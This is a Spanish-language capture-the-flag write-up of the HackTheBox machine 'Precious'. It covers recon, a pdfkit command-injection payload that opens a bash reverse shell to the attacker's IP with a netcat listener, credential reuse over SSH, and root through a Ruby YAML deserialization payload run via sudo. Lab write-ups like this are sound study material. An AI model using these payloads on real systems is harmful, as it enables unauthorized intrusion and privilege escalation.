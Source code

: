 # Primeros pasos

En este artículo voy a subir mi writeup vulnerando la máquina Precious del sitio web HackTheBox. Voy a ir paso a paso explicando poco a poco los pasos que voy realizando. He estado entrando e investigando y después de un par de días intentandolo resolver por mi mismo, traigo esta writeup para poder coger la flag, o bandera y así completar esta máquina. 

# Materiales

En esta máquina recomiendo tener un sistema operativo Linux, conectarnos a la VPN de HTB y tener nociones sobre herramientas básicas de pentesting.

# Resolución Máquina Precious

- Primero haremos ping para ver si llegamos a la máquina con una traza ICMP

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/1.png"/>
</div>

- Ahora que vemos que tenemos conexión, vamos a realizar un escaneo de los puertos de la máquina con Nmap (puedes encontrar un tutorial sobre esta herramienta en mi blog). Cómo podemos comprobar, tenemos abiertos los puertos 22/tcp y 80/tcp. El 22/tcp corresponde al servicio ssh y al 80/tcp pertenece al servicio http.

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/2.png"/>
</div>

- Si usamos el comando curl podremos ver el dominio http://precious.htb

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/3.png"/>
</div>

- Voy a editar mi archivo /etc/hosts y pondré los siguientes parámetros:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/4.png"/>
</div>

- Ahora, si abrimos nuestro navegador de confianza, podremos ver la siguiente página web, un convertidor de web a pdf:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/5.png"/>
</div>

- Ahora necesitaremos crear un servidor con python para ver si podemos realizar algunas peticiones. Tranquil@, no necesitas saber este lenguaje para este ejercicio, ya que es un comando muy sencillo:

```
sudo python3 -m http.server 80
```

- Ahora, nos metemos en la web y en el buscador vamos a apuntar a nuestro servidor http que hemos creado de la siguiente manera:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/6.png"/>
</div>

- Cómo podemos ver, nos llega una petición a nuestro servicio http, además nos descarga un documento pdf:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/7.png"/>
</div>
<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/8.png"/>
</div>

- A continuación necesitaremos una herramienta llamada exiftool que nos dará información avanzada sobre un archivo pdf, lo usaremos para ver esa información del archivo pdf descargado. La instalaremos fácilmente de la siguiente manera:

```
sudo apt install exiftool
```

- Vamos a cambiar el nombre del archivo y le pondremos precious.pdf, y vamos a analizarlo:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/9.png"/>
</div>

- Oh vaya, ha sido genereado con pdfkit v0.8.6. Es hora de llegar a la parte divertida, crear una reverse shell. Voy a crear una injección, en este artículo puedes encontrar este payload de la página [Snyk vulnerability DB](https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795). Con él vamos a realizar un exploit muy sencillo usando el convertidor que tiene la página http precious de la siguiente manera: 

```
http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/"TuIP"/443 0>&1"`'}
```
<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/10.png"/>
</div>

- Antes de ejecutar eso en la aplicación web, escucharemos por netcat con el siguiente comando:

```
sudo netcat -lvnp 443
```

- Ya tenemos la reverse shell, mejor no podemos ir.

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/11.png"/>
</div>

- Cómo podemos comprobar somos el usuario ruby

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/12.png"/>
</div>

- He navegado por los directorios, y específiamente en ~/.bundle tenemos información relevante sobre un usuario llamado henry. ¿Qué puertos tenemos abiertos en esta máquina además del servicio HTTP? correcto, el servicio SSH. Vamos a probar acceso al usuario henry por ssh haber si tenemos acceso con las credenciales obtenidas:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/13.png"/>
</div>

- Ya tenemos acceso a la máquina con el usuario henry y con esto ya tenemos la primera flag, la obtendremos de la siguiente manera:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/14.png"/>
</div>

<br>

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/15.png"/>
</div>

- Apuntamos esta flag en un archivo txt para más adelante agregarla en HTB y así obtenerla. Continuamos  mirando si los permisos de sudoers, podemos ver que podemos ejecutar un archivo de ruby como root. Si leemos el archivo podemos comprobar que en una parte intenta cargar a dependencies.yml Podrás comprobar lo mencionado en la siguiente captura:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/16.png"/>
</div>

- Con el siguiente payload vamos a ejecutar un comando para realizar la bash suid (son permisos de acceso que pueden asignarse a archivos o directorios en un sistema operativo basado en Unix. Se suele utilizar para permitir a los usuarios del sistema ejecutar binarios con privilegios elevados temporalmente para realizar una tarea en específico.) [Pincha aquí para obtener el payload](https://gist.githubusercontent.com/staaldraad/89dffe369e1454eedd3306edc8a7e565/raw/4b85e6fe8f5708f0a7ba87dbecb6954f8f380bee/ruby_yaml_load_sploit2.yaml). Yo lo he copiado y pegado en un archivo que me he hecho en el escritorio, además cambiaremos el git_set, cómo podemos ver en la captura: 

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/17.png"/>
</div>

- Ahora solo nos queda ejecutar el script ruby y cargar el yml, si ejecutamos el comando ya tendremos la bash suid:

```
sudo ruby /opt/update_dependencies.rb 2>/dev/null
```

- Ya tenemos la bash como propietarios !!! Esto significa que ya podemos leer la flag.

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/18.png"/>
</div>

- Lo único que tenemos que realizar es lo siguiente:

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/19.png"/>
</div>

- Lo único que nos queda es subir las dos flags encontradas, la de henry y la de root, a HackTheBox y ya tendremos la máquina PWNED.

# Precious have been pwned

Ya tenemos la máquina comprometida, tenenmos la flag de henry (usuario) y la flag de root, por lo que ya tenemos la máquina precious completamente realizada 

<div class="imgs">
  <img src="/assets/images/articulos/2023-01-23-maquina-precious/pwnd.png"/>
</div>










































